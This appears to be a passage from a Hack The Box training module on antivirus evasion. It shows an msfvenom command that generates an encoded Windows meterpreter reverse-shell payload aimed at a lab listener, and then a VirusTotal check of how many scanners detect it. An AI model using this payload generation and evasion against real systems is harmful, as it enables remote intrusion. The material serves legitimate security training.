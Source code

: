 #### Generating Payload

```shell-session
codenvibes@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5

Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 27 (iteration=0)
x86/shikata_ga_nai succeeded with size 54 (iteration=1)
x86/shikata_ga_nai succeeded with size 81 (iteration=2)
x86/shikata_ga_nai succeeded with size 108 (iteration=3)
x86/shikata_ga_nai succeeded with size 135 (iteration=4)
x86/shikata_ga_nai chosen with final size 135
Payload size: 135 bytes
Saved as: /home/user/test.js
```

```shell-session
codenvibes@htb[/htb]$ cat test.js

�+n"����t$�G4ɱ1zz��j�V6����ic��o�Bs>��Z*�����9vt��%��1�
<...SNIP...>
�Qa*���޴��RW�%Š.\�=;.l�T���XF���T��
```

If we check against VirusTotal to get a detection baseline from the payload we generated, the results will be the following.

#### VirusTotal

```shell-session
codenvibes@htb[/htb]$ msf-virustotal -k <API key> -f test.js 

[*] WARNING: When you upload or otherwise submit content, you give VirusTotal
[*] (and those we work with) a worldwide, royalty free, irrevocable and transferable
[*] licence to use, edit, host, store, reproduce, modify, create derivative works,
[*] communicate, publish, publicly perform, publicly display and distribute such
[*] content. To read the complete Terms of Service for VirusTotal, please go to the
[*] following link:
[*] https://www.virustotal.com/en/about/terms-of-service/
[*] 
[*] If you prefer your own API key, you may obtain one at VirusTotal.

[*] Enter 'Y' to acknowledge: Y


[*] Using API key: <API key>
[*] Please wait while I upload test.js...
[*] VirusTotal: Scan request successfully queued, come back later for the report
[*] Sample MD5 hash    : 35e7687f0793dc3e048d557feeaf615a
[*] Sample SHA1 hash   : f2f1c4051d8e71df0741b40e4d91622c4fd27309
[*] Sample SHA256 hash : 08799c1b83de42ed43d86247ebb21cca95b100f6a45644e99b339422b7b44105
[*] Analysis link: https://www.virustotal.com/gui/file/<SNIP>/detection/f-<SNIP>-1652167047
[*] Requesting the report...
[*] Received code 0. Waiting for another 60 seconds...
[*] Analysis Report: test.js (11 / 59): <...SNIP...>
====================================================================================================

 Antivirus             Detected  Version               Result                             Update
 ---------             --------  -------               ------                             ------
 ALYac                 true      1.1.3.1               Exploit.Metacoder.Shikata.Gen      20220510
 AVG                   true      21.1.5827.0           Win32:ShikataGaNai-A [Trj]         20220510
 Acronis               false     1.2.0.108                                                20220426
```